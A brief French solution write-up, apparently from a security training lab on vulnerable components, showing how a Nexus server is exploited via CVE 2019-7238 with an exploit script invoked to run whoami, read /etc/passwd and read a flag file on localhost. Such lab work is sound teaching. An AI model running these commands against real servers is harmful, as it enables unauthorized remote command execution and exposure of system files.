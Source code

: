 # Solution
## A06 - Composants vulnérables et obsolètes

Le serveur Nexus utilisé est vulnérable à la CVE 2019-7238. Nous pouvons donc l'exploiter avec le script suivant :

```bash
python3 CVE-2019-7238.py http://localhost:8081/ whoami
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/passwd"
python3 CVE-2019-7238.py http://localhost:8081/ "cat /etc/flag.txt"
```

Nous obtenons le flag.